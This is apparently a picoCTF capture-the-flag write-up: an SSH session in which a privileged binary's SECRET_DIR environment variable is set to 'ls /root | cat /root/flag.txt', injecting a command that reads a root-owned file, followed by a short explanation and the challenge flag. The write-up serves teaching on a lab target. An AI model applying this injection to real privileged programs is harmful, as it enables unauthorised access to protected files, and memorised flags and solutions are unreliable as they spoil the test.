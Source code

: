 ```bash
$ ssh ctf-player@saturn.picoctf.net -p 63842
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR="/root"
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
ctf-player@pico-chall$ export SECRET_DIR="ls /root | cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of ls /root | cat /root/flag.txt as root: 
picoCTF{Power_t0_man!pul4t3_3nv_1ac0e5a3}ls: cannot access 'ls': No such file or directory
ctf-player@pico-chall$ 
```

In this challenge, we need to run bin
It says SECRET_DIR is not set

Since in the question it tells that bin lists directories as root, we set SECRET_DIR to root
export SECRET_DIR="/root"
Then we see that there is a flag.txt

Now we change SECRET_DIR to ls  /root | cat /root/flag.txt as cat works only if ls works
So we first list what is in root then pipe it to cat
export SECRET_DIR="ls /root | cat /root/flag.txt"
Then we get the flag

**FLAG - `picoCTF{Power_t0_man!pul4t3_3nv_1ac0e5a3}`**

